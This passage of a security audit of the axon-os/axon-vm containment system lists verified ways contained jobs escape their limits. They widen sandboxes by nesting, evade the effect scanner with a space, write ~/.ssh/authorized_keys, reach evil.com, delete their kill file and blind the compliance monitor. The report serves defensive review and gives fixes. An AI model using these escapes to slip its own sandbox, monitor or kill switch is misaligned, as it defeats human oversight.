**Recommendation:** Make sandbox ceilings monotonically narrowing: in the `sandbox_run` arm, intersect the requested sandbox's allowed set with the currently-active one (and refuse, not silently narrow, if the requested set is not a subset). `sandbox_create` should likewise be denied — or forced to intersect — while a sandbox is active. Add a regression test that a nested sandbox_create/sandbox_run cannot re-acquire an effect the outer ceiling withheld, and an axon-os acceptance test that runs a self-widening job under a zero-cap grant and asserts exit 8.


#### [CRITICAL] Grant path/host allowlists are never enforced anywhere — fs_write=["./out/"] permits writing the whole filesystem
*crates/axon-os/src/runtime.rs:253* · kind: bug · reporter confidence: high

`wrap_in_sandbox` (crates/axon-os/src/runtime.rs:253-275) collapses the grant to three coarse interpreter tags (net→Net,AI; any of fs_read/fs_write/exec→IO). The prefix lists themselves are only used by the static gate for *presence* (gate.rs:51-66 checks booleans) and by `legible_grant`. No component ever compares a runtime path or host against the allowlist.

VERIFIED: manifest `fs_write = ["./out/"]`, everything else empty; program `write_file("/tmp/.../PWNED4.txt", …)`. axon-os printed `✓ completed (value=0)`, exit 0, and the file was created far outside ./out/. Same class applies to `net = ["api.example.com"]` — only the coarse Net tag is passed down, so any host is reachable.

This directly falsifies what `axon-os explain` shows the approving human (cli.rs:63-95 renders "This program MAY: write ./out/"), which is the product's core claim.

**Recommendation:** Push the allowlists down to enforcement: either extend the interpreter's sandbox entry to carry path-prefix and host allowlists checked inside read_file/write_file/http_*/exec dispatch, or run the job under an OS-level confinement (bubblewrap/landlock/seccomp) derived from the grant. Until then, `legible_grant` and the spec must not claim path/host scoping, and a grant containing any prefix narrower than "" should be refused as unenforceable rather than silently widened.


#### [HIGH] Static admission gate's effect scanner is a substring match evaded by a single space (`exec (`)
*crates/axon-os/src/runtime.rs:218* · kind: bug · reporter confidence: high

`scan_effects` (crates/axon-os/src/runtime.rs:218-242) decides declared effects with `source.contains("exec(")`, `contains("write_file")`, etc. VERIFIED: writing `exec ("touch", &args)` (one space before the paren) parses and runs identically but `contains("exec(")` is false, so the gate admitted a job under `exec = "none"`. Other holes in the same function: effects reached through a `mod` import are invisible (only the top-level file is read); and capability-bearing builtins absent from the list entirely — `env_var`, `sleep_ms`/`now_ms`, `chan_*`, `goal_run`/`goal_eval` (rows {AI,Net,IO}), `sql_query`, `read_file` variants added later — all scan as pure.

**Recommendation:** Replace the substring scan with the real front-end: parse the program (the crate already ships `axon ast review` / `builtin_effect_row`) and take the effect-row union over the module graph, mapping any parse/resolve failure to `DeclaredEffects::unknown()`. A drift test should assert every name in `builtin_effect_row` with a non-empty row is classified by the extractor.


#### [HIGH] A job that fails to compile is sealed into the audit record as `Completed`, and axon-os exits 0
*crates/axon-os/src/runtime.rs:410* · kind: bug · reporter confidence: high

Verdict classification (crates/axon-os/src/runtime.rs:377-415) is a chain of `stderr.contains(...)` tests with a final else-branch that declares `Verdict::Completed { value: exit_code }`. The interpreter reports parse/type errors as `error: parse error: …` on stderr with exit 2 — no `axon:` fault line, no "sandbox"/"budget"/"REFINE"/"panic" substring.

VERIFIED: a job whose program has a syntax error produced `✓ completed (value=2)` from `axon-os run`, process exit 0, and a hash-chained record whose verdict is `Completed{value:2}`. A run that never executed a single statement is attested as a successful completion. The same else-branch swallows any future interpreter fault whose message wording changes.

**Recommendation:** Stop inferring the verdict from stderr prose. Have the interpreter emit a machine-readable outcome (a `--json` result or a fault line with a stable code) and map exit codes explicitly: 2 → Malformed, 3/4/5/6/7/8 → their carved verdicts, and treat *any* unrecognised non-zero exit as a fault (`Denied`/`Malformed`), never as `Completed`. Add a test asserting a non-compiling job yields a non-zero axon-os exit.


#### [HIGH] run_bounded deadlocks on a full stdout pipe: any job printing >64 KiB is killed and misreported as a timeout
*crates/axon-os/src/runtime.rs:138* · kind: bug · reporter confidence: high

`run_bounded` (crates/axon-os/src/runtime.rs:127-190) takes the child's piped stdout/stderr at line 138-139 but only reads them at lines 181-182, *after* the try_wait/sleep loop exits. The comment at 181 claims the drain keeps the child unblocked; it happens too late. Once the child writes more than the pipe buffer (64 KiB on Linux) it blocks in `write`, never exits, and the loop kills it at the wall-clock timeout.

VERIFIED: a program printing 20 000 short lines finishes in 60 ms standalone; under `axon-os run` with AXON_OS_TIMEOUT_MS=8000 it was killed at exactly 8 s and recorded as `⚠ DENIED: timed out after 8000 ms (axis: time)`. Every verbose job is silently converted into a false containment denial (and the 30 s default makes it a 30 s stall).

**Recommendation:** Drain both pipes concurrently with the wait — spawn reader threads for stdout/stderr before the loop and join them after the child is reaped, or use a poll/select-based reader. Add a regression test with a child that emits >1 MiB and assert it completes well under the timeout.


#### [HIGH] R29 compliance monitor watches a ledger the contained job can never write (env_clear drops AXON_AUDIT_LEDGER)
*crates/axon-os/src/runtime.rs:339* · kind: bug · reporter confidence: high

The interpreter only appends capability-audit entries when `AXON_AUDIT_LEDGER` is set in its own environment (crates/axon-core/src/interp/builtins.rs:219). `run_sandboxed` calls `cmd.env_clear()` (crates/axon-os/src/runtime.rs:339) and then sets only AXON_SEED and PATH; `cmd_run` (cli.rs:283-320) never sets AXON_AUDIT_LEDGER at all — `grep -rn AXON_AUDIT_LEDGER crates/` returns zero hits in axon-os.

So `axon-os run job.axjob --monitor fs_read --ledger p.jsonl` spawns a monitor thread that polls a file the job never creates; `File::open` fails every 100 ms (monitor.rs:103-108, treated as transient), the job runs to completion, stop is set, and the monitor returns CleanExit. R29 can never detect a violation in the real pipeline. Every test in crates/axon-os/tests/r29_compliance.rs writes the ledger from the test harness itself, so the wiring gap is invisible to the suite.

**Recommendation:** Set AXON_AUDIT_LEDGER (to the monitor's ledger path) in the child's explicit environment in `run_sandboxed`, plumbed from cmd_run alongside the kill file. Add an end-to-end test that runs a real job through `axon-os run --monitor` and asserts exit 12, not a hand-written ledger.


#### [HIGH] Compliance monitor returns CleanExit on the stop flag without a final ledger drain, missing the last violations
*crates/axon-os/src/monitor.rs:97* · kind: bug · reporter confidence: high

`ComplianceMonitor::run` checks `self.stop` at the top of the poll loop and returns `CleanExit` immediately (crates/axon-os/src/monitor.rs:96-99). `cmd_run` sets stop the instant the job process returns (cli.rs:341). The monitor sleeps 100 ms between polls, so any ledger entries written in the final poll window — precisely the exfiltrate-then-exit pattern — are never parsed. The result is `containment_violation = false`, exit 0, and no kill-file trip, even though the violating entry is sitting in the ledger on disk.

**Recommendation:** On observing `stop`, perform one final full read of the ledger from `current_offset` and evaluate all remaining complete lines before returning CleanExit. Test: append a violating entry, then set stop in the same millisecond, and assert ViolationDetected.


#### [HIGH] `--killable` is silently disabled whenever `--monitor` is used, so `axon-os kill` becomes a no-op that still reports TRIPPED
*crates/axon-os/src/cli.rs:273* · kind: bug · reporter confidence: high

crates/axon-os/src/cli.rs:273 — `let kill_file_path = if killable && monitor_effects.is_none()`. With both flags the R27 file `$out/$run_id.kill` is never created and AXON_KILL_FILE points at `$out/$run_id.monitor.kill` (cli.rs:284-287). `cmd_kill` (cli.rs:513) writes `$store/$run_id.kill` — a file nobody polls — and prints `🛑 kill tripped for run …`, exit 0. `cmd_status` then reads that same file and reports `latch = TRIPPED` while the job keeps running to completion. The operator kill-switch is inert and lies about it in exactly the configuration (monitored run) where an operator is most likely to reach for it.

**Recommendation:** Use a single kill file per run for both R27 and R29 (one path, two writers), or make `--killable` with `--monitor` an explicit usage error. `cmd_kill` should verify the file it writes is the one being polled (e.g. by writing the path into the run record and having kill resolve it from there) rather than reconstructing a filename by convention.


#### [HIGH] The kill file is writable/deletable by the contained job and absence is read as Clear, so a job can make itself unkillable
*crates/axon-os/src/killchan.rs:102* · kind: bug · reporter confidence: high

crates/axon-os/src/monitor.rs:51-52 asserts the kill file is a "supervisor-owned path, inaccessible to the contained job". Nothing enforces that: as shown above the job has unconstrained filesystem access, and the kill file sits in `--out` (default `.`) under a predictable `$run_id.kill` / `$run_id.monitor.kill` name. Both readers fail open — `is_kill_file_tripped` returns false on any read error (runtime.rs:193-198) and `FileKillChannel::poll` returns `LatchState::Clear` on Err (killchan.rs:102) — directly contradicting the module header at killchan.rs:10 ("poll() error or unknown state → Tripped") and latch.rs:6. A job that deletes or overwrites the file with `{"latch":"clear"}` defeats both the R27 operator kill and the R29 monitor kill.

**Recommendation:** Put the kill file outside any job-reachable directory (a supervisor-private temp dir with 0600, path not derivable from the run-id), and make read failure fail closed (Tripped) once the file has been observed at least once — distinguishing "never created" from "vanished". Better: replace the file-latch with a pipe/signal the child cannot touch.


#### [HIGH] Approval-token enforcement is opt-in by file presence — deleting the .approval file skips the gate entirely
*crates/axon-os/src/cli.rs:248* · kind: bug · reporter confidence: high

crates/axon-os/src/cli.rs:247-257: the R22 handoff runs `verify_approval` only `if approval_path.exists()`. If the token is absent the run proceeds with no sign-off check and no warning. An attacker (or a careless copy of the job directory) that omits or removes `<job>.approval` gets an unapproved run, while one that edits the program with the token present gets exit 8. Additionally the token is unauthenticated: `verify_approval` (approval.rs:56-83) only re-derives SHA-256 digests over public inputs, so anyone can mint a token for any program/grant with `approved_by` set to any name — it is tamper-evidence against post-approval edits, not authorization.

**Recommendation:** Make approval a policy of the supervisor, not of the filesystem: add `--require-approval` (default on for Risk ≥ High, or a manifest field) so a missing token is exit 8. For authenticity, sign the token (Ed25519 over the canonical form) with an operator key the job cannot reach, and check the signature in verify_approval.


#### [HIGH] axon-vm --extended-tcb measures the host stack but never verifies it, while printing "4/4 components verified"
*crates/axon-vm/src/main.rs:953* · kind: bug · reporter confidence: high

crates/axon-vm/src/main.rs:940-965: the `--extended-tcb` gate calls `measure_host_stack(...)` and, on Ok, prints `✓ extended TCB: {axtcb1_ext} (4/4 components verified)` and proceeds to boot. `verify_extended` is never called on this path (it appears only in cmd_attest at main.rs:767 and in tests). There is no pinned expected `axtcb1-ext:` value to compare against, so the gate passes for *any* kernel/axon-os binaries that happen to exist on disk — a substituted axon-os binary produces a different digest and still boots, with a message asserting verification happened.

**Recommendation:** Require an expected value (`--expected-tcb <axtcb1-ext:…>`, or a pinned file alongside the kernel baseline) and call `verify_extended`, exiting EXTENDED_TCB_MEASURE_FAIL on mismatch. Until then the message must say "measured", not "verified".


#### [HIGH] Quorum votes are not bound to the proposal: stale/replayed .vote files approve an unrelated program
*crates/axon-vm/src/quorum/io.rs:63* · kind: bug · reporter confidence: high

`collect_responses` (crates/axon-vm/src/quorum/io.rs:63-77) reads every `*.vote` file in the directory and `cmd_run` passes them straight to `check_quorum` (main.rs:977-984). `VoteResponse.run_id` exists but is never compared to anything, `--quorum` takes no run-id or prog_hash, and the votes carry no signature. Scenario: peers approve a benign proposal r1 (3 YES files land in votes/); later `axon-vm run dangerous.ax --quorum 3 --quorum-dir votes/` reuses the same three files and boots. `voter_tcb` and `lineage_root` are equally self-asserted, so the anti-sock-puppet cap (logic.rs:83) is defeated by writing distinct lineage_root strings — the opposite of coalition.rs:9-11's stated invariant that membership is set by the supervisor, never self-report.

**Recommendation:** Bind each vote to the proposal: require `--quorum-run-id`/prog_hash on `run`, drop any vote whose run_id or prog_hash doesn't match (and count the drops), and reject a directory containing votes for other run-ids rather than ignoring them. Sign VoteResponse with a per-voter key and verify before counting; derive lineage_root from the verified key, not the vote body.


#### [MEDIUM] AXON_VM_ALLOWED_EFFECTS widens the guest policy instead of only tightening it
*crates/axon-vm/src/main.rs:886* · kind: bug · reporter confidence: high

crates/axon-vm/src/main.rs:886-899. The comment says the env var "tightens the policy beyond the manifest", but the code replaces the manifest/principal-derived set outright. `AXON_VM_ALLOWED_EFFECTS=Exec,Net axon-vm run p.ax` grants Exec+Net to the guest kernel policy even when the compiled manifest's effect_union is ["IO"] and the registered principal allows only IO. An ambient environment variable is thus a capability-escalation channel into the in-guest syscall gate.

**Recommendation:** Intersect rather than replace: `effective = manifest_or_principal ∩ forced`, and refuse (exit 2) if `forced ⊄ manifest_or_principal` so the widening intent is surfaced rather than silently honored.


#### [MEDIUM] Guest-kernel policy parser fails OPEN (0xFF, all effects) on every error path, including the default run
*crates/axon-guest-kernel/src/mmds.rs:41* · kind: bug · reporter confidence: high

crates/axon-guest-kernel/src/mmds.rs: static default `EffectSet(0xFF)` (line 41); no boot_params → open (53-56); null cmdline ptr → open (66-69); `axon.policy=` absent → open (105-108); POLICY_READY false → 0xFF (159-165); and `json_array_effects` returns 0xFF when the key is missing or the value isn't `[` (262, 265). The last one fires on the ordinary path: with no `--emit-manifest` sidecar and no `--principal`, `allowed_effects` is `None` and serde emits `"allowed_effects":null`, so the guest boots with IO+FS+Net+AI+Exec+Random. A cmdline longer than 4095 bytes is truncated by the copy loop (77-84), corrupting the base64 and landing on the same open default. For a kernel whose stated job is deny-by-default containment, every unknown is an open grant.

**Recommendation:** Invert every default to `EffectSet(0)` and make a missing/unparseable policy a hard boot failure (print + power off with the violation exit code), not an open grant. Treat a truncated cmdline as a parse failure by checking for the null terminator within the buffer.


#### [MEDIUM] Guest syscall gate is advisory: the program runs in ring 0 with the policy in a writable static
*crates/axon-guest-kernel/src/enforce.rs:31* · kind: architecture · reporter confidence: high

crates/axon-guest-kernel/src/enforce.rs installs LSTAR/STAR/FMASK and checks `static mut ALLOWED_EFFECTS` (line 31, default 0xFF) in `syscall_dispatch`. But init() itself notes "no real user mode here" (line 425) and `run_program` (295-323) explains the SYSRET path lacks ring-3 segments. When the real interpreter ELF is eventually loaded it will execute in the same ring and address space as the gate, where it can simply write ALLOWED_EFFECTS, rewrite LSTAR, or bypass `syscall` altogether. Also, syscalls 0/1 (read/write) are classified "pure, always allowed" with no fd check, so once any fd exists the FS effect is moot.

**Recommendation:** Land ring-3 separation (user GDT descriptors + TSS + per-process page tables) before the K5 interpreter load, mark the policy page read-only after init, and gate read/write on the fd's provenance rather than treating them as pure. Until ring separation exists, the docs should describe the gate as a demonstration, not enforcement.


#### [MEDIUM] Kernel attestation is trust-on-first-use and disabled by an environment variable
*crates/axon-vm/src/main.rs:2243* · kind: bug · reporter confidence: high

crates/axon-vm/src/main.rs:2232-2278. `AXON_CI_NO_KVM=1` short-circuits the "mandatory" attestation gate to Ok (2243-2246) — an ambient env var turning off the TCB check. Otherwise the expected digest is read from `$HOME/.axon/kernel_baseline.sha256`, and if that file is absent the *current* kernel silently becomes the baseline (2270-2277). Deleting the baseline file (user-writable, predictable path) therefore re-blesses a tampered kernel with an "attestation: baseline established" message rather than a failure. The same env var also selects the mock genesis in `chain_genesis`.

**Recommendation:** Require an explicit `--pin-baseline` action to establish a baseline; a missing baseline in a non-dev run should be a refusal. Replace the AXON_CI_NO_KVM bypass with an explicit `--no-attest` flag only (already present, and already prints a warning), so no environment variable can silently disable the gate.


#### [MEDIUM] R34 chain: `seq` is outside the hash preimage and trailing-entry truncation is undetectable
*crates/axon-vm/src/chain.rs:96* · kind: bug · reporter confidence: high

crates/axon-vm/src/chain.rs:96-118 — the preimage is version‖prev‖prog_hash‖run_id‖timestamp; `seq` is not included. `verify_entries` (258-280) checks linkage and the recomputed hash but never that seq is 0,1,2,…, so an editor can renumber entries freely and verification still returns Ok; `last_entry` (152-163) then derives the next seq from the forged value. Separately, deleting the last N lines leaves a perfectly-linking prefix: `verify(genesis)` returns Ok, contradicting the module claim at chain.rs:5-7 that "removing … any run is detected". Concrete: a VM that ran 10 jobs, the last of which was the incriminating one, truncates chain.jsonl to 9 lines and passes `axon-vm chain verify`.

**Recommendation:** Add `seq` to the preimage (with a version bump to axon-run-v2) and assert seq == index in verify_entries. For truncation, anchor the head: persist/publish the tip out-of-band (the ChainExport head already exists — require an expected `--head` on verify), or co-sign each tip.


#### [MEDIUM] Coalition cap makes quorum unsatisfiable for fleets of size 1 or 2
*crates/axon-vm/src/quorum/logic.rs:83* · kind: bug · reporter confidence: high

crates/axon-vm/src/quorum/logic.rs:83-85 — `default_coalition_cap(n) = ceil(n/2) - 1`, which is 0 for n = 1 and n = 2. With cap 0 the loop at logic.rs:152-158 admits no YES vote at all, so `approvals` is always 0 and `quorum_met` can never be true. `axon-vm run --quorum 1` (or 2) is a permanent deny regardless of how the fleet votes, and the blocking reason blames the coalition cap. The existing tests only cover n ≥ 3.

**Recommendation:** Clamp the cap to at least 1 (`max(1, ceil(n/2)-1)`) or reject `--quorum < 3` with a usage error explaining that a coalition ceiling is meaningless below 3 voters. Extend the parameterised test to n = 1..12.


#### [MEDIUM] replay re-executes the job from an unverified manifest before detecting divergence
*crates/axon-os/src/replay.rs:32* · kind: bug · reporter confidence: high

crates/axon-os/src/replay.rs:28-40 verifies the stored record's internal hash chain, then calls `supervisor::run` with the caller-supplied manifest and only afterwards compares JSON. The record's `manifest_digest` is never compared to `canonical_manifest(manifest)` before the re-run. So `axon-os replay <id> --store dir/` on a tampered `<id>.axjob` (e.g. a widened grant, or a different `program` path) actually executes the job with the tampered grant — real side effects — and only then reports "replay diverged". An audit action becomes an execution primitive for an attacker who can edit the store.

**Recommendation:** Compare `format!("axsha256:{}", sha256(canonical_manifest(manifest)))` against `stored.manifest_digest` immediately after `verify(stored)` and return VerifyMismatch before any run. Same check belongs in cmd_replay so the CLI never launches on a mismatched manifest.


#### [MEDIUM] scan_effects hard-codes Label::Internal, making every `max_label = "public"` grant unusable
*crates/axon-os/src/runtime.rs:240* · kind: bug · reporter confidence: high

crates/axon-os/src/runtime.rs:240 returns `max_label: Label::Internal` for every successfully-read program. `admit` denies when `declared.max_label > grant.max_label` (gate.rs:68). VERIFIED: a trivially pure job under a `max_label = "public"` grant is denied with `program handles internal data above the grant ceiling public (axis: label)`. The tightest confidentiality ceiling in the model is therefore unreachable — operators must loosen to `internal` to run anything, which is the wrong direction for a fail-closed system and trains users to over-grant.

**Recommendation:** Derive the label from the program (annotations / `@[sensitive]` / the data it reads) and default to `Public` when nothing indicates otherwise, reserving `unknown()`'s `Secret` for the read-failure path. Add a test that a pure program admits under a public grant.


#### [MEDIUM] Verdict is inferred from stderr substrings the job itself can print
*crates/axon-os/src/runtime.rs:388* · kind: bug · reporter confidence: high

crates/axon-os/src/runtime.rs:388-409 classifies on `err.contains("capability")`, `err.contains("budget") && err.contains("exceeded")`, `err.contains("REFINE")`, `err.contains("axon: panic")`. A job with any IO capability can `eprintln("budget exceeded")` and have a successful, fully-completed run sealed into the tamper-evident record as `BudgetExhausted` (exit 7), or print "capability" and be recorded as sandbox-Denied. The record then attests a containment event that never happened, and `first_axon_line` (203-212) will happily quote the job's own text as the reason. The converse also holds: the word "capability" appearing incidentally in program output flips a clean run to Denied.

**Recommendation:** Take the verdict from a channel the job cannot write — a dedicated status fd/file the interpreter writes, or a structured `--json` outcome — and treat stderr as advisory text only.


#### [MEDIUM] Monitor loses a whole ledger chunk on a UTF-8 split, and buffers unbounded lines
*crates/axon-os/src/monitor.rs:136* · kind: bug · reporter confidence: high

crates/axon-os/src/monitor.rs:136-147: `current_offset += bytes_read` happens *before* the UTF-8 check, so when a read lands mid-multibyte-character (or on any non-UTF-8 byte) the `continue` discards the entire chunk permanently — including any violating entries in it. A job that wants to hide can simply emit one invalid byte into the ledger to blank the surrounding chunk. Separately, `line_buf` (149) grows without bound when no newline arrives, so a single long line is an unbounded memory sink in the supervisor process.

**Recommendation:** Only advance `current_offset` by the bytes actually consumed into complete lines (use `from_utf8`'s `valid_up_to`, keep the remainder for the next poll), and cap `line_buf` at a fixed size, treating overflow as a violation (deny-by-default) rather than silently accumulating.


#### [MEDIUM] AXON_KILL_FILE is passed to the runtime through process-global env mutation while a monitor thread runs
*crates/axon-os/src/cli.rs:276* · kind: architecture · reporter confidence: high

crates/axon-os/src/cli.rs:276, 287, 323, 336, 355 use `std::env::set_var`/`remove_var` as the channel between cmd_run and `AxonCoreRuntime::run_sandboxed` (runtime.rs:355), which reads the variable back. This is process-global mutable state in a program that spawns a monitor thread (cli.rs:312), which is unsound in Rust 2024 (`set_var` is `unsafe`) and makes the supervisor non-reentrant: two concurrent supervised runs in one process would clobber each other's kill file, and any library thread calling getenv races.

**Recommendation:** Thread the kill-file path explicitly: add it to the `Runtime` trait (e.g. `run_sandboxed(..., kill_file: Option<&Path>)`) or to `AxonCoreRuntime`'s constructor, and delete the env round-trip. Same for AXON_BIN/AXON_OS_TIMEOUT_MS, which are already read once in `from_env`.


#### [MEDIUM] Path-prefix containment uses raw starts_with, so ./data is an ancestor of ./data-secret
*crates/axon-os/src/grant.rs:168* · kind: bug · reporter confidence: high

crates/axon-os/src/grant.rs:168-170 — `is_ancestor(prefix, path) = path == prefix || path.starts_with(prefix)`, with no component boundary. `is_subset_of` (115-124) and `intersect_prefixes` (199-211) both build on it. Concrete: supervisor grant `fs_read = ["./data"]`, job grant `fs_read = ["./data-secret/"]` — `prefixes_within` reports the job's prefix as contained, and `intersect` keeps `./data-secret/` as "the narrower prefix", so the intersection grants a region the supervisor never authorized. The manifest's `..` check (manifest.rs:218) does not help here. `host_matches` (176-181) has the same shape: pattern `*x.com` matches `evilx.com`.

**Recommendation:** Compare path components (or require prefixes to end in `/` and check `path == prefix || path.starts_with(prefix_with_slash)`), and restrict host globs to a leading `*.` label boundary. Add negative tests for ./data vs ./data-secret and *x.com vs evilx.com.


#### [LOW] verify_report ignores both the HMAC and hw_root, so a software stand-in report can claim sev-snp
*crates/axon-attest/src/lib.rs:191* · kind: architecture · reporter confidence: high

crates/axon-attest/src/lib.rs:191-225 checks only that `signature` is non-empty plus two equality comparisons the verifier already knows the answers to. The key is never re-derived, and `report.hw_root` is never inspected — a report serialized with `hw_root: "sev-snp"` verifies identically to the `software-tpm-v1` stand-in, so a relying party using `verify_report`/`try_admit_job` cannot tell a real hardware root from the CI stand-in. The module docs are honest about the missing crypto (lines 8-9, 186-190) but the API gives no way to express "only accept hardware".

**Recommendation:** Add an expected-hw_root parameter (or a `require_hardware: bool`) to verify_report and reject SOFTWARE_TPM_HW_ROOT when hardware is required; verify the HMAC when a key is available so an unsigned/garbage signature is distinguishable from a valid one.


#### [LOW] Bump allocator's alignment/size arithmetic can overflow past the heap-end check
*crates/axon-guest-kernel/src/bump.rs:34* · kind: bug · reporter confidence: high

crates/axon-guest-kernel/src/bump.rs:34-36 computes `(current + align - 1) & !(align - 1)` and `aligned + size` with unchecked usize arithmetic before testing `next > HEAP_END`. A `size` near usize::MAX (or a large align) wraps `next` to a small value that passes the bound check, and `alloc` returns a pointer into the middle of the kernel image; `alloc_zeroed` then memsets over it. Not reachable today (sizes are kernel-internal), but it is the allocator underneath the future interpreter load.

**Recommendation:** Use checked_add/checked_next_multiple_of and panic (or return null) on overflow, e.g. `let next = aligned.checked_add(size).filter(|n| *n <= HEAP_END).unwrap_or_else(|| panic!("kernel heap exhausted"))`.


#### [LOW] axon-os status --latest is parsed but does nothing
*crates/axon-os/src/cli.rs:543* · kind: improvement · reporter confidence: high

crates/axon-os/src/cli.rs:543-546: the `--latest` arm only advances the index. The most-recent-kill-file search it advertises is in fact the *default* behavior when no run-id is given (cli.rs:566-583), so `--latest` combined with an explicit run-id silently ignores the flag rather than overriding.

**Recommendation:** Either honor the flag (force the newest-file search even when a run-id is supplied) or drop it from USAGE so the CLI surface matches behavior.


### Product surface — 18 findings (3C/8H/5M/2L)


#### [CRITICAL] The approved grant's path/host allowlists are never enforced at runtime — only coarse axis presence is
*crates/axon-os/src/runtime.rs:253* · kind: bug · reporter confidence: high

axon-intent renders and digests a legible bound with concrete scope ("read ./data/", "write ./out/", "reach api.example.com") and axon-os claims to run the job under it. But the only runtime enforcement is `wrap_in_sandbox` (crates/axon-os/src/runtime.rs:253-275), which throws away every prefix/host and emits three coarse interpreter tags: net -> {Net,AI}, and fs_read|fs_write|exec -> a single "IO" bucket. Nothing else consults grant.fs_read/fs_write/net at run time (grep over runtime.rs/supervisor.rs/monitor.rs shows no path check). Concretely: a job approved with grant fs_write=["./out/"] gets ceiling "IO"; at runtime `write_file("/home/user/.ssh/authorized_keys", ...)` is permitted. A job approved with net=["api.example.com"] gets "Net,AI"; `http_get("https://evil.com", "")` is permitted. I verified the same coarseness lets `exec` through an fs-only grant: a wrapper with `sandbox_create(p, "IO")` calling `exec ("echo", ["PWNED"])` ran successfully (exit 0). So every scope word in the token the human signs is decorative at execution time.

**Recommendation:** Enforce the grant's prefix/host allowlists at builtin dispatch, not just the axis tag. Either extend the sandbox entry to carry the fs_read/fs_write prefix lists and net host list and check them in the read_file/write_file/http_* arms of interp/builtins.rs, or have wrap_in_sandbox emit `@[contained(fs: [...], net: [...], exec: ...)]` on the entry fn so the existing E1001 path machinery applies. Until then, `legible_bound` must not tell the operator the program "may write ./out/" — it can only honestly say "may write files".


#### [CRITICAL] Nested sandbox_create/sandbox_run escapes the enclosing effect ceiling entirely
*crates/axon-core/src/interp/builtins.rs:191* · kind: bug · reporter confidence: high

crates/axon-core/src/interp/builtins.rs:191 exempts `sandbox_create` and `sandbox_run` from the ceiling check, and the `sandbox_run` arm (same file, ~line 2819) does `self.active_sandbox.replace(sb_handle)` — it REPLACES the active ceiling instead of intersecting with it. Any program running inside a sandbox can therefore mint a wider one for itself. Verified by running: a program whose outer wrapper is `principal_root(...); sandbox_create(__p, ""); sandbox_run(__sb, "__job_entry", 0)` (the exact shape axon-os generates) where __job_entry does `sandbox_create(p2, "Random,IO,Net,AI"); sandbox_run(sb2, "evil", 0)` printed "ESCAPED: got random 1" — `random_i64` executed under an empty ceiling. This is the fence axon-os's own comment calls "what actually contains" (runtime.rs:299-305), so the R21/R22 containment story has no floor today.

**Recommendation:** Make nesting monotone: in the `sandbox_run` arm, set the new active ceiling to the INTERSECTION of the requested sandbox's allowed set with the currently-active one (and keep the exemption only for that, not for sandbox_create). Add a regression test asserting an inner sandbox cannot widen an outer one.


#### [CRITICAL] exec effect evades the declared-effects scanner via one space, so a job approved as "may NOT spawn processes" can spawn processes
*crates/axon-intent/src/synth.rs:97* · kind: bug · reporter confidence: high

Both effect scanners are substring matches on `"exec("` / `"spawn_proc"` (crates/axon-intent/src/synth.rs:97 and the duplicate at crates/axon-os/src/runtime.rs:232). The Axon parser accepts whitespace between callee and arg list: I ran `exec ("echo", ["pwned"])` and it executed the process (exit 0, "out: pwned"), while `src.contains("exec(")` is False. Chain: draft declares exec=false -> grant_infer gives ExecPolicy::None -> derive_risk returns Medium (not Critical) -> legible_bound prints "It may NOT: spawn processes" -> human approves -> axon-os builds ceiling from the GRANT, and any fs axis puts "IO" in the ceiling, and builtin_effect_row("exec") is ["IO"] -> the spawn is permitted at run time. The same scanners also omit `env_var` (IO), `http_sse_post` (Net), and `print/println` (IO), so the declared set diverges from the interpreter's own catalog in both directions.

**Recommendation:** Delete both hand-rolled scanners and derive DeclaredEffects from the compiler: walk the AST (or consume `axon ast review --json` per-fn effect data) and map each called builtin through `builtins::builtin_effect_row`, which is already the single source of truth. At minimum, until that lands, treat an un-analyzable source as DeclaredEffects::unknown() rather than as the empty set.


#### [HIGH] axon-os run: approval verification is opt-in on file existence — deleting the token runs the job unapproved
*crates/axon-os/src/cli.rs:248* · kind: bug · reporter confidence: high

crates/axon-os/src/cli.rs:244-257 does `if approval_path.exists() { ...verify or exit 8... }`. Tampering with the token is caught, but REMOVING it is not: `rm summarize.approval` and `axon-os run summarize.axjob` proceeds to execute with no approval check at all. There is no `--require-approval` flag anywhere in the workspace (grep confirms cli.rs:248 is the only site). The whole R22 value proposition — "runs under a bound the human reviewed and signed" — is therefore satisfiable by an attacker or a sloppy pipeline with write access to the job directory, which is strictly weaker than the byte-level tamper-evidence the token itself provides.

**Recommendation:** Invert the default: require an approval token for any job whose derived risk is above Low (or always, with an explicit `--no-approval` escape hatch that prints a loud warning and is refused at Risk >= High). A missing token must be the same verdict as an invalid one (exit 8).


#### [HIGH] `axon deploy --risk <invalid>` is silently ignored; the guard meant to catch it is dead code
*crates/axon-core/src/main.rs:5343* · kind: bug · reporter confidence: high

crates/axon-core/src/main.rs:5343 does `risk_flag.as_deref().and_then(parse_risk_level).unwrap_or(0)`, and parse_risk_level (main.rs:5018) returns Option, never -1. The following guard `if risk_flag.is_some() && declared_risk == -1` (main.rs:5344) can never fire. Verified: `axon deploy --json --risk criticl risky.ax` printed {"risk":"low","stages_run":[],"status":"deployed"} and exited 0. An operator who typos the risk level, or a caller passing an unexpected token (the web UI forwards `req.risk` verbatim from a JSON body, crates/axon-web/src/api.rs:103-107), silently gets the LOWEST gate path while believing they raised it. Contrast axon-intent's cli.rs:115-123, which correctly exits 2 on an unparseable --risk.

**Recommendation:** Match on the Option: `match risk_flag.as_deref().map(parse_risk_level) { Some(None) => error+exit 2, Some(Some(n)) => n, None => 0 }`. Add a CLI test for the typo case.


#### [HIGH] Deploy risk is derived only from voluntary annotations, so an unannotated network+filesystem program deploys as Risk Low
*crates/axon-core/src/main.rs:5236* · kind: bug · reporter confidence: high

derive_risk_from_ast (crates/axon-core/src/main.rs:5236-5283) inspects only `f.effect_row` and `@[contained]` attribute args. It never looks at which builtins the body calls. Verified: a program whose helper calls `http_get(u, "")` and whose main calls `write_file("./stolen.txt", body)`, with no annotations, produced {"risk":"low","stages_run":[],"status":"deployed"}. Risk Low means the simulate/stress gates are skipped and the Risk>=Critical no-quorum warning (main.rs:5427-5438) never prints. Since effect rows are optional and LLM-generated programs (the whole point of `axon intent compile --gen`) will not carry them, the Phase-11 risk pipeline is opt-in for exactly the code it exists to police.

**Recommendation:** Derive the effect set from the call graph via builtin_effect_row (the same fix as the scanner finding), and treat a program with reachable Net/FS/Exec builtins as at least the corresponding risk tier regardless of annotations. Annotations should only be able to RAISE, consistent with the --risk contract.


#### [HIGH] `axon ast approve` writes a hash that nothing ever verifies — deploy checks only that the .approved file exists
*crates/axon-core/src/main.rs:5355* · kind: bug · reporter confidence: high

